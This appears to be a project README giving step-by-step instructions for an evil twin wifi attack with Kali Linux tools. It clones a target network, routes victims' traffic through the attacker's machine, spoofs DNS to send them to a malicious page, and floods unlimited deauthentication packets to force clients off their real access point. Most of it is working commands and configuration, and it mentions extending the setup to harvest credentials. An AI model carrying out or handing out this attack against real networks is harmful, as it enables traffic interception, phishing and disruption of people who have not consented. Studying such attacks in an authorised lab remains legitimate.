


# How to Setup the Evil Network:
This document outlines the steps we took in order to setup an evil twin access point and cause clients to be redirected to a malicious website.

# Prerequisites
- [kali linux](https://www.kali.org/downloads/)
- External [usb wifi adapter](https://www.amazon.com/gp/product/B00H95C0A2/ref=ppx_yo_dt_b_asin_title_o03_s00?ie=UTF8&psc=1) (unless you have a built in wifi card AND ethernet port)
- [Raspberry Pi](https://www.amazon.com/Vilros-Raspberry-Clear-Power-Supply/dp/B07BDRD3LP/ref=sr_1_3?dchild=1&keywords=rasbperry+pi+3b%2B+vilros&qid=1588119918&s=electronics&sr=1-3), this is optional but it is what was used here. A virtual machine or laptop would work as well.
- Aircrack suite
- setoolkit

# Instructions

Note: In this writeup we use wlan1 as our wireless access point and wlan0 as our interface connected to the interet for bridging. If you were using a raspberry pi without a usb wifi adapter you can replace all mentions of `wlan1` for `wlan0` and all mentions of `wlan0` for `eth0` if the raspberry pi is connected to the intert with an ethernet cable.

1. Update Device and install dependencies
	```
	sudo apt-get update
	sudo apt-get install dnsmasq dsniff mariadb-server
	git clone https://github.com/trustedsec/social-engineer-toolkit/ setoolkit/
	cd setoolkit
	pip3 install  Cython
	pip3 install -r requirements.txt
	python3 setup.py
	```
	Note that mariadb-server is not required, but it could be used as a mysql server if the attack were expanded to collect credentials.
	
2. Configure dnsmasq  
	dnsmasq is a lightweight DHCP and caching DNS server. It essentially allows us to use our kali box as a router/hotspot.

	```
	mkdir /Desktop/eviltwin
	cd /Desktop/eviltwin
	touch dnsmasq.conf
	```

	Enter these details into dnsmasq.conf:
	```
	interface=at0
	dhcp-range=10.0.0.10,10.0.0.250,12h
	dhcp-option=3,10.0.0.1
	dhcp-option=6,10.0.0.1
	server=8.8.8.8
	log-queries
	log-dhcp
	listen-address=127.0.0.1
	```

	- interface=at0 						# interface used by airbase-ng
	- dhcp-range=10.0.0.10,10.0.0.250,12h 	# Client IP address range with a default lease of 12 hours
	- dhcp-option=3,10.0.0.1 				# 3 is the default gateway code, followed by the default gateway IP
	- dhcp-option=6,10.0.0.1 				# 6 is the DNS code, followed by the default gateway IP
	- server=8.8.8.8 						# Google's public DNS
	- listen-address=127.0.0.1 				# listens on localhost
	
3. View available network interfaces  
	`iwconfig`  
	You should see several devices such as eth0, wlan0, lo, etc.
	
	
	Now plug in your usb wireless adapter and run `iwconfig` again. You should see your new network device with the name of something like wlan1 for example. You will need this for the next step.
	

4. Update NetworkManager.conf  
	`vim /etc/NetworkManager/NetworkManager.conf`

	Add these lines to the end of the file to resolve conflicts between airmon-ng and the NetworkManager. 
	Replace `A2:B2:C2:D2:E2:F2` with the MAC address of the wireless adapter. 
	```
	[keyfile]
	unmanaged-devices:mac=AA:BB:CC:DD:EE:FF, A2:B2:C2:D2:E2:F2
	```

5. Bring up the wireless adapter  
	`ifconfig wlan1 up`

6. Ensure our network adapter wlan1 is not connected to internet.  
  	`nmcli con`
	If it shows it is connected in the list, disconnect it from the network that is connected to our adapter with:  
	`nmcli con down <UUID>`

7. Put the wireless network interface into monitor mode.
	`airmon-ng start wlan1`
	You will likely see a message that says to run `airmon-ng check kill` to kill interfering processes. We can safely ignore this.

8. Look at iwconfig again and we can see our new network monitoring device.  
	`iwconfig`
	It will have a name such as `wlan1mon`.
	

9. Find the device to spoof and record the BSSID (mac address), channel, and ESSID.  
	 - First update known manufacturer MAC addresses of routers:  
	 `airodump-ng-oui-update`

	- Then get a list of all the devices broadcasting around you.  
	`airodump-ng wlan1mon`  
	Look under the ESSID column for the name of the network you want to spoof.
	When you see it hit  
	`ctrl+c`  
	and then copy the line with the device to attack into a text file.
	Copy down the BSSID (MAC address), CH (channel), and ESSID (Wireless access point name) values.
	
	Note the blurred out details are all of my neighbors routers. Pretty neat, but excluded for privacy.

10. Now for fun, take a look at the devices connected to that network.  
	Enter the BSSID from the previous step in this command:  
	`airodump-ng -d A0:A0:A0:00:00:A0 wlan1mon`  

	Here we can see all the devices and their MAC addresses that are connected to the router we will attack. This can be useful, because it would allow us to attack specific devices if we so chose.
	

11. Lets boost our signal strength, to the max legal limit in the US.  
	(Note that not all wireless adapters support this.)
	Devices generally try to connected to the wifi with the greatest strength. This will give us a competive edge.    
	```
	ifconfig wlan1mon down     
	iw reg set US              
	ifconfig wlan1mon up       
	```
	Again you can check the signal strength with `iwconfig wlan1mon`  
	The Tx-Power should now read 30 dBm.

12. Start up the evil twin AP (access point)  
	Give the evil twin the same name as the network you are attacking on the same channel.  
	`airbase-ng -e "zzzz" -c 11 wlan1mon`  
	At this point you should be able to see your evil network listed under the available wireless networks on your phone or computer. It will have the same name, but not be password protected. You may get an error, but it can be ignored. Devices can now try to connect, but will not have any internet.
	

13. Create an bridged interface to give the evil twin connection to the internet.  
	This is the interface airbase-ng uses to provide internet access to the evil twin.
	```
	ifconfig at0
	ifconfig at0 10.0.0.1 up
	```
	Here we assigned at0 the ip address of 10.0.0.1, which is the same as we specified in `dnsmasq.conf`. This will allow at0 to act as the default gateway.

14. Route all traffic through the at0 interface.  
	The device wlan0, or eth0 in the second line as the `--out-interface` option, must be the interface connected to the internet for this to work. It must be a different interface than the monitoring device. These commands will enable NAT by setting some firewall rules in iptables. These commands also enable our Apache (below) webserver to serve our malicious webpage to clients on our network.
	```
	iptables --flush
	iptables --table nat --append POSTROUTING --out-interface wlan0 -j MASQUERADE
	iptables --append FORWARD --in-interface at0 -j ACCEPT
	iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 10.0.0.1:80
	iptables -t nat -A PREROUTING -j MASQUERADE
	```
	If these commands give errors we can try to use a legacy version of iptables. do the following and then rerun the commands
	`sudo update-alternatives --config iptables`
	Select the `/usr/sbin/iptables-legacy 10 manual mode` option

15. Enable port forwarding  
	This is the switch that turns on internet access for clients connected to the evil twin.
	`echo 1 > /proc/sys/net/ipv4/ip_forward`

16. Enable the evil twin to allocate ip addresses to clients.  
	`dnsmasq -C /root/Desktop/dnsmasq.conf -d`  
	 - -C specifies the config file
	 - -d stands for daemon mode
	Congratulations, you have setup a hotspot for yourself. As soon as a client connects you will see output as below. We can start seeing all traffic the client is viewing.  
	

17. Now we can start a local Apache webserver that we can redirect traffic to.  
	Place a webpage of your design under  
	`/var/www/html/index.html`  
	Start the server:  
	`sudo /etc/init.d/apache2 start`
	
	Here is our example webpage named `index.html`:  
	

18. Your apache server is running locally. Record the servers IP address.  
	Either localhost or the devices ip address can be used.  
	`hostname -I` will give you your devices ip address. Additionally you can use localhost which is `127.0.0.1`

19. Spoof some DNS to redirect clients to our Apache server. 
	Create a file `config/dnsspoof.conf`  
	Add urls you want to spoof to it. For example the following line in dnsspoof.conf will redirect anyone trying to visit http://www.example.com to our local apache server:  
	`127.0.0.1	example.com`  
	Note that the ip address and url must be separated by a tab, not spaces.
	You can add as many lines like this as you like for redirecting traffic. Currently only HTTP sites work, not HTTPS sites. The screenshot shows the client connecting to example.com and getting re-routed to our local server.
	


20. Finally deauthorize clients so they connect to our network instead of their legit network.  
	-deauth 0 will run unlimited deauthorization attempts. Since our evil twins network has a stronger signal and clients generally auto-connect to recognized networks, they will be kicked off the valid AP and onto our evil twin.
	`aireplay-ng –deauth 0 -a <BSSID> wlan1mon`
	

## Sources
- https://www.yeahhub.com/evil-twin-attack-dnsmasq-wireless-wpa2-psk-cracking/
- https://www.rootsh3ll.com/evil-twin-attack/


